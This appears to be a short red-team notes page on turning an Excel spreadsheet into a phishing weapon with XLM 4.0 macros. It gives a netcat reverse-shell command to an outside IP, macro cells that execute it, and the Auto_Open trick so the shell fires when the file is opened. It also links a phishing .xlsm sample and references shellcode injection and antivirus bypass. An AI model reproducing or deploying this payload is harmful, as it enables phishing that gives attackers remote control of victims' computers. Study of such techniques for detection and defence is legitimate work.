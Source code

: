 # ⭕ XLM Macro 4.0

{% embed url="https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm" %}

{% embed url="https://fortynorthsecurity.com/blog/excelntdonut" %}

A Microsoft Excel Spreadsheet can be weaponized by firstly inserting a new sheet of type "MS Execel 4.0 Macro":

![](<../../.gitbook/assets/image (160).png>)

shell.cmd :&#x20;

```
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```

We can then execute command by typing into the cells:

```vba
=exec("c:\shell.cmd")
=halt()
```

Note how we need to rename the `A1` cell to `Auto_Open` if we want the Macros to fire off once the document is opened:

![](<../../.gitbook/assets/image (83).png>)

{% file src="../../.gitbook/assets/Excel 4.0 Macro Functions Reference (1).pdf" %}

{% file src="../../.gitbook/assets/phishing-xlm.xlsm" %}

Opening the document and enabling Macros pops a reverse shell:

![](<../../.gitbook/assets/image (50).png>)

Note that XLM Macros allows using Win32 APIs, hence shellcode injection is also possible. See the original research link below for more info.

{% embed url="https://blog.sevagas.com/Launch-shellcodes-and-bypass-Antivirus-using-MacroPack-Pro-VBA-payloads" %}

{% embed url="https://www.scriptjunkie.us/2012/01/direct-shellcode-execution-in-ms-office-macros" %}

{% embed url="https://malsechunter.wordpress.com/2020/12/13/malicious-document-shellcode-injection" %}

{% embed url="https://securityonline.info/badassmacros-c-based-automated-malicous-macro-generator" %}
